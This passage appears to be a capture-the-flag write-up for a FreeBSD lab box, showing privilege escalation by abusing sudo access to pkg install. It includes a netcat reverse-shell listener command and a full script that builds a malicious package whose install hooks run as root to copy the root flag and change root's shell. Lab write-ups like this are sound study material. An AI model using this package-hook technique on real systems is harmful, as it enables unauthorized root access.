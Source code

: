 As you can see in our script, we took the first two parts, put them together, then the last step of building the package and appended it on the end. We can run this script and we get our package output of `mypackage-1.0_5.txz`. Now we can start up our shell listener.

Command:
`nc -lvnp 5050`

Now we can run our priviledged package commands.

Command:
`sudo /usr/sbin/pkg install -U *.txz`

If we don't use the `-U` command, it will time out.

Now this should give us a shell back. However, when I tried to replicate the steps a my second time through the box, I wasn't able to. So to improvise, I simply modified my above script to get the `root.txt` flag and copy it to `/tmp`. This is that script:

```bash
#!/bin/sh

STAGEDIR=/tmp/stage
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}
cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
echo "Resetting root shell"
cat /root/root.txt > /tmp/key
EOF
cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
echo "Registering root shell"
pw usermod -n root -s /bin/sh && cat /root/root.txt > /tmp/key
EOF
cat >> ${STAGEDIR}/+MANIFEST <<EOF
name: mypackage
version: "1.0_6"
origin: sysutils/mypackage
comment: "automates stuff"
desc: "automates tasks which can also be undone later"
maintainer: john@doe.it
www: https://doe.it
prefix: /
EOF
pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o .
```

We re-run the script and the `pkg` command and get our flag!

{{< figure src="__GHOST_URL__/content/images/2021/07/schooled_Root.gif" >}}

I'll attempt to regain a reverse shell when we're closer to this box being retired. 

Hopefully something was learned in this box!



